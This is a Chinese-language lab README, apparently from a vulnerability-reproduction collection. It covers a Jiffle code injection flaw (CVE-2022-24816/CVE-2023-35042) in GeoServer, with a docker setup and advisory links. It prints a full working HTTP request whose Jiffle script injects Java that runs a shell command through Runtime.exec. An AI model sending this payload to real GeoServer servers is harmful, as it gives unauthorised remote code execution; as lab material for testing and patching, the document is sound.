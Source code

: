 # GeoServer JAI-EXT 导致远程代码注入漏洞（CVE-2022-24816/CVE-2023-35042）

GeoServer 是 OpenGIS Web 服务器规范的 J2EE 实现，利用 GeoServer 可以方便的发布地图数据，允许用户对特征数据进行更新、删除、插入操作。

GeoServer 使用 JAI-EXT 提供的 Jiffle 地图代数语言，这让使用者可以高效地在大图像上执行地图查询。在 JAI-EXT 1.2.21 及更早版本中存在一个代码注入漏洞（CVE-2022-24816），该漏洞允许攻击者通过精心构造的 Jiffle 调用来执行远程代码。

在 GeoServer 中，这个漏洞也被称为 [CVE-2023-35042](https://osgeo-org.atlassian.net/browse/GEOS-10458)。GeoServer 2.20.4、2.19.6 和 2.18.6 及更高版本通过将 JAI-EXT 依赖项更新到 1.2.22 修复了这个问题。

参考链接：

- <https://www.synacktiv.com/publications/exploiting-cve-2022-24816-a-code-injection-in-the-jt-jiffle-extension-of-geoserver>
- <https://github.com/geosolutions-it/jai-ext/security/advisories/GHSA-v92f-jx6p-73rx>
- <https://geoserver.org/vulnerability/2022/04/11/geoserver-2-jiffle-jndi-rce.html>
- <https://osgeo-org.atlassian.net/browse/GEOS-10458>
- <https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2022/CVE-2022-24816.yaml>

## 漏洞环境

执行如下命令启动一个GeoServer 2.17.2服务器：

```
docker compose up -d
```

服务启动后，你可以在`http://your-ip:8080/geoserver`查看到GeoServer的默认页面。

## 漏洞复现

漏洞存在于WMS接口中。攻击者可以通过向`/geoserver/wms`发送特制的请求来执行任意Java代码。请求中需要包含一个恶意的Jiffle表达式，这个表达式将被服务器执行。

发送如下请求来复现漏洞：

```
POST /geoserver/wms HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/xml
Content-Length: 2191

<?xml version="1.0" encoding="UTF-8"?>
<wps:Execute version="1.0.0" service="WPS" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns="http://www.opengis.net/wps/1.0.0" xmlns:wfs="http://www.opengis.net/wfs" xmlns:wps="http://www.opengis.net/wps/1.0.0" xmlns:ows="http://www.opengis.net/ows/1.1" xmlns:gml="http://www.opengis.net/gml" xmlns:ogc="http://www.opengis.net/ogc" xmlns:wcs="http://www.opengis.net/wcs/1.1.1" xmlns:xlink="http://www.w3.org/1999/xlink" xsi:schemaLocation="http://www.opengis.net/wps/1.0.0 http://schemas.opengis.net/wps/1.0.0/wpsAll.xsd">
<ows:Identifier>ras:Jiffle</ows:Identifier>
<wps:DataInputs>
    <wps:Input>
    <ows:Identifier>coverage</ows:Identifier>
    <wps:Data>
        <wps:ComplexData mimeType="application/arcgrid"><![CDATA[ncols 720 nrows 360 xllcorner -180 yllcorner -90 cellsize 0.5 NODATA_value -9999  316]]></wps:ComplexData>
    </wps:Data>
    </wps:Input>
    <wps:Input>
    <ows:Identifier>script</ows:Identifier>
    <wps:Data>
        <wps:LiteralData>dest = y() - (500); // */ public class Double {    public static double NaN = 0;  static { try {  java.io.BufferedReader reader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec("id").getInputStream())); String line = null; String allLines = " - "; while ((line = reader.readLine()) != null) { allLines += line; } throw new RuntimeException(allLines);} catch (java.io.IOException e) {} }} /**</wps:LiteralData>
    </wps:Data>
    </wps:Input>
    <wps:Input>
    <ows:Identifier>outputType</ows:Identifier>
    <wps:Data>
        <wps:LiteralData>DOUBLE</wps:LiteralData>
    </wps:Data>
    </wps:Input>
</wps:DataInputs>
<wps:ResponseForm>
    <wps:RawDataOutput mimeType="image/tiff">
    <ows:Identifier>result</ows:Identifier>
    </wps:RawDataOutput>
</wps:ResponseForm>
</wps:Execute>
```

这样，数据包中的Jiffle表达式中的Java代码将被服务器执行，执行结果将返回在`java.lang.ExceptionInInitializerError`消息中：

![](1.png)
